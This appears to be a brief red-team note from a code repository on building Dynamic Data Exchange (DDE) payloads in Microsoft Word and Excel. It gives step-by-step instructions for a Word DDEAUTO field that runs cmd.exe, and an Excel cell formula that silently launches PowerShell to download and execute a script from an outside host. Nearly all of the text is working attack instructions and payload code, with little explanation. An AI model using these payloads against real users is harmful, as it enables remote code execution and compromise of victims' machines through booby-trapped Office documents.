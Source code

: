 # Dynamic Data Exchange - DDE

---

DDE allows programs to manipulate objects provided by other programs, and respond to user actions affecting those objects

## Create DDE Payload Word

1. open Microsoft word
2. Insert ---> quick ---> fields
3. Right click text and select toggle field codes
4. Replace {= \*MERGEFORMLA } with DDEAUTO c:\\windows\\system32\\cmd.exe "/k calc.exe"

## Create DDE Payload Excel

1. open Microsoft Excel

2. insert below formula in cell
   
   ```powershell
   =cmd|'/c powershell.exe -w hidden IEX (New-Object Net.WebClient).DownloadString(\"http://nooranetred.com/screen.cmd\");start-process screen.cmd'!_xlbgnm.A1
   ```
